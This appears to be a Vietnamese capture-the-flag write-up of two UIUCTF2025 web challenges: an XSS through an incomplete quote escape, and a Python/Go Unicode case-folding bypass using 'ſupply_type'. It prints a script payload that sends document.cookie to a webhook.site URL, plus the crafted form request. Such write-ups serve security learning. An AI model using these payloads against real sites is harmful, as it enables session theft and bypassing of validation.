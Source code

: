 ```yaml
---
title: Writeup Giải UIUCTF2025
date: 2025-07-29
categories: [WRITEUP,WHYCTF2025]
tags: [XSS, Unicode] # TAG names should always be lowercase
---
```



## UIUCTF2025

## I. Ruler of the Universe

Khi ta mở sẽ thấy được giao diện như bên dưới

![image.png](/assets/img/posts/UIUCTF2025/image.png)

ngoài ra còn một trang `Admin Bot` 

![image1.png](/assets/img/posts/UIUCTF2025/image1.png)

thì cũng phần nào đoán được bài lab này liên quan đến chủ đề `XSS Injection` 

kiểm tra source code ta thấy một đoạn code khả nghi sau

```html
            <input
              id="message"
              name="message"
              type="text"
              class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
              placeholder={
                crewMessage
                  ? `Update your message: ${crewMessage}`
                  : "Enter a message for the crew"
              }
            />
```

Ở đây, `crewMessage` được đưa vào làm giá trị cho một **thuộc tính (prop/attribute)**. Ngoài ra cũng còn có một đoạn code phòng chống XSS nhưng chưa đủ chắc chắn như sau

```tsx
  const propString = props
    ? Object.entries(props)
        .filter(([key]) => key !== "children")
        .map(([key, value]) => {
          if (typeof value === "boolean") {
            return value ? key : "";
          }
          return `${key}="${String(value).replace('"', "&quot;")}"`;
        })
        .filter(Boolean)
        .join(" ")
    : "";
```

đoạn code trên chỉ thay thế dấu `"` đầu tiên bằng `&quot;` nên ta vẫn có thể dễ dàng vượt qua nó

và ta sẽ khai thác lỗ hổng trên bằng payload như sau:  `" placeholder="Hello"><script>fetch('[https://webhook.site/fbdbb9e3-5a91-4964-83de-9b97f9a23bb4?flag=](https://webhook.site/fbdbb9e3-5a91-4964-83de-9b97f9a23bb4?flag=)' + document.cookie)</script>`
nhập payload vào phần `Crew Message:` trên trang web và kiểm tra

![image2.png](/assets/img/posts/UIUCTF2025/image2.png)

ta thấy đã thành công tiêm thẻ `script` vào trang web 

và việc cuối cùng ta phải làm là gửi trang web đã bị XSS này đến với `Adminbot` để lấy flag thôi

`url_part` gửi đến adminbot `module/1?message="+placeholder%3D"Hello"><script>fetch%28%27https%3A%2F%2Fwebhook.site%2Ffbdbb9e3-5a91-4964-83de-9b97f9a23bb4%3Fflag%3D%27+%2B+document.cookie%29<%2Fscript>`


> **Flag:**
> ```text
> uiuctf{maybe_i_should_just_use_react_c49b79}
> ```
{: .prompt-tip }

## II. Shipping Bay

Khi mở trang web ta được một trang web với chức năng tạo và xem đơn hàng

![image.png](/assets/img/posts/UIUCTF2025/image3.png)

Thử tạo đơn hàng và sau khi đơn hàng được tạo thì không hiển thị trên trình duyệt. Quay trở lại burpsuite ta nhận được request và respone như sau:

![image.png](/assets/img/posts/UIUCTF2025/image4.png)

Quay trở lại source code ta nhận thấy có hai điểm đáng chú ý sau. Đoạn code python thì không cho sử key `supply_type` có value là `flag` ⇒ nếu có thì chặn và không gửi đến `processing_service` của Golang

```python
def create_shipment():
    shipment_data = {k.lower(): v for k, v in request.form.items()}
    if shipment_data['supply_type'] == "flag":
        return "Error: Invalid supply type", 400
```

Nhưng Golang lại cần điều kiện đó để trả ra `flag`

```go
func sendShipment(shipment Shipment) string {
  if shipment.SupplyType == "flag" {
    if flag, exists := os.LookupEnv("FLAG"); exists {
      return flag
    }
    return "uiuctf{fake_flag}"
  }
  return "oops we lost the package"
}
```

Vậy để vượt qua thử thách trên? Vấn đề nằm ở **sự khác biệt về chuẩn hóa Unicode của** Python và xử lý Json của Go. Khi unmarshal vào struct, Go nội bộ xây chiến lược tìm field theo **tên JSON**  và cho phép một dạng **so khớp không phân biệt hoa-thường** (casefold). Vậy việc cần làm ở đây là tìm kí tự có casefold để vượt qua rào cản để lấy được flag. Và mình dùng đoạn code sau đây để tìm kí tự đó:

```go
package main

import (
  "fmt"
  "strings"
  "unicode"
)
func main() {
  s := "supply_type"
  runes := []rune(s)
  for pos, target := range runes {
    count := 0
    fmt.Printf("Vị trí %d, ký tự gốc %q (U+%04X)\n", pos, target, target)
    for cand := rune(0); cand <= unicode.MaxRune; cand++ {
      if !unicode.IsPrint(cand) || cand == target {
        continue
      }
      if strings.EqualFold(string(cand), string(target)) {
        fmt.Printf("  -> U+%04X %q\n", cand, cand)
        count++
      }
    }
    fmt.Println("  Total:", count)
  }
}
```

và kết quả trả về chỉ duy nhất kí tự `s` có casefold `ſ` 

```
Vị trí 0, ký tự gốc 's' (U+0073)
  -> U+0053 'S'
  -> U+017F 'ſ'
```

Gửi payload đã chứa casefold để nhận flag `origin=Earth+Station+Beta&destination=Mars+Colony+Alpha&supply_type=hello&ſupply_type=flag&weight=2.4+tons&departure=2000-02-01&arrival=2000-02-02&priority=Medium&vessel=Cargo+Hauler+IX` 

Vậy nó hoạt động như nào?

Khi ta gửi `supply_type=hello&ſupply_type=flag` thì sẽ được xử lý như sau:

- `lower()` không casefold, không normalize do đó phân biệt `supply_type` và `ſupply_type` nên thêm luôn vào dictonary hay key này. và `supply_type=hello` có value ≠ `flag` nên đoạn payload sẽ được gửi tiếp đến Go
- Go khi map JSON key → struct field **so khớp không phân biệt hoa-thường theo Unicode** (case folding), nên coi `ſ` ≡ `s`. Vậy khi Go nhận `supply_type=hello` và sau đó lại nhận được `ſupply_type=flag` thì casefold nó và ghi đè thành `supply_type=flag` và vượt qua được kiểm tra nên trả ra flag.
> **Flag:**
> ```text
> uiuctf{maybe_we_should_check_schemas_8e229f}
> ```
{: .prompt-tip }